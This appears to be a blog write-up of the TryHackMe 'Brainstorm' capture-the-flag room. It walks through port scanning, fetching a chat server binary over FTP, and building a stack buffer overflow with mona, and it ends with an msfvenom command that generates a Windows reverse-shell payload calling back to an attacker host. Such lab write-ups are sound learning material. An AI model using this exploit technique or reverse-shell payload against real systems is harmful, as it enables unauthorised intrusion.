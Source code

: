 ```yaml
---
layout: post
title:  "TryHackMe Brainstorm writeup"
date:   2020-12-02 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Brainstorm](https://tryhackme.com/room/brainstorm). 

## Reconnaissance

Start with nmap scan, but need to disable host discovery.

```
nmap -Pn -p- 10.10.235.126
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-02 17:21 EET
Nmap scan report for 10.10.235.126
Host is up (0.053s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server
9999/tcp open  abyss
Nmap done: 1 IP address (1 host up) scanned in 106.02 seconds
```
Don’t know where the six ports that is accepted as answer comes from. But the format here is pretty clear: FTP server has a copy of an executable that is running on port 9999 and by analyzing it an exploit can be created.

## FTP Enumeration
Get the chatserver binaries chatserver.exe and essfunc.dll from the ftp service for analysis.

## Testing chat server
Test the server to see what it looks like.
```bash
nc 10.10.235.126 9999     
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): foo
Write a message: hello
Wed Dec 02 07:22:35 2020
foo said: hello
Write a message:  foo
Wed Dec 02 07:22:38 2020
foo said: foo
Write a message:  ^C
```
# Gaining entry
Open binary in Immunity Debugger. Configure mona:
```
!mona config -set workingfolder c:\mona\%p
```
Create a buffer that crashes the program:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```
Feed it to the write a message (paste) and crash. Check with mona EIP:

![mona]({{ site.url }}/assets/brainstorm/mona.png)
Ok, offset seems to be 2012. Verify by sending a payload:
```
offset = 2012
overflow = “A” * offset
retn = “BBBB
```
The program crashes and EIP is what it should be:

![mona]({{ site.url }}/assets/brainstorm/stack.png)

Check for badchars by using badchars array as payload:
```
!mona compare -f c:\mona\brainpan\bytearray.bin -a 006CEEB8
```
No badchars makes life easy. Now for the jump address:

!mona jmp -r esp -cpb “\x00”

![mona]({{ site.url }}/assets/brainstorm/badchars.png)
`\xdf\x14\x50\62` is what we can use as return address (reverse order in payload). It is in the DLL without ASLR which is good. Generate a payload and copy the bytes into the exploit buffer:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.108.247 LPORT=4444 EXITFUNC=thread -b “\x00” -f py
```
Here is the final exploit:
{% gist 24e87e0ab52208efb6c8da4c0275a34b %}

Run the exploit for reverse root shell.

